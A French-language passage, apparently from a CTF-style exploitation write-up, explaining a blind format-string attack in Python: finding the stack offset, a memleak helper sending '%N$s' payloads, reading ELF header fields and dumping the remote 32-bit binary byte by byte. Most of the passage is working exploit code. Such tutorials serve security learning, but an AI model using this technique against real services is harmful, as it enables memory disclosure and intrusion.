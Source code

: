 ```python
    if res.startswith(b'0x'):
        if g.find(int(res, 16))[0] > -1:
            OFFSET = i
            JUNK = b"A"*g.find(int(res, 16))[0]
            break

progress.success(str(OFFSET))
```

Avec un script comme celui-ci, nous trouvons un offset de 17.

Maintenant que nous avons notre offset, nous pouvons essayer de lire à l'adresse `0x8048000` qui est une adresse de base classique pour un programme 32bit (on sait que c'est du 32bit grâce à notre recherche d'offset qui à fait fuiter quelques adresses de la mémoire)

L'adresse de base contenant l'opcode \x00, nous ne pourrons pas le faire fuiter puisque notre payload sera tronqué. Nous allons donc lire l'adresse suivante.


```python
def memleak(offset, junk, addr):
    try:
        res = send_payload(junk+pack(addr)+"|%{}$s|".format(offset).encode())
        return b''.join(res.split(b'|')[1:-1])+b"\x00"
    except:
        return b"\x00"

print(memleak(OFFSET, JUNK, 0x8048001))
```

On a bien une valeur commençant par `ELF`, on est donc prêt à récuperer le binaire.

Pour ne pas dumper le binaire plus précisément, nous allons récupérer quelques infos de l'entête ELF:

- e_shoff: décalage en octets de la table des entêtes de sections
- e_shentsize: taille en octets d'un entête de section
- e_shnum: nombre d'entrées de la table des entêtes de sections

Avec ces différentes valeurs, il est possible de calculer la taille totale du binaire.

```python
e_shoff = memleak(OFFSET, JUNK, 0x8048000+0x20)
e_shoff = e_shoff[1]*256+e_shoff[0]
log.info("e_shoff: {}".format(e_shoff))
e_shentsize = memleak(OFFSET, JUNK, 0x8048000+0x2e)[0]
log.info("e_shentsize: {}".format(e_shentsize))
e_shnum = memleak(OFFSET, JUNK, 0x8048000+0x30)[0]
log.info("e_shnum: {}".format(e_shnum))
filesize = e_shoff+e_shentsize*e_shnum
log.info("filesize: {}".format(filesize))

p = log.progress('Leaking the binary')
offset = 0
while not offset>filesize:
    ADDR = 0x8048000+offset
    p.status("({}/{}) {}".format(offset, filesize, hex(ADDR)))
    res = memleak(OFFSET, JUNK, ADDR)
    if len(res) == 0:
        res = b"\x00"
    with open('bin', 'ab') as binary:
        binary.write(res)
    offset += len(res)
p.success('OK')
```
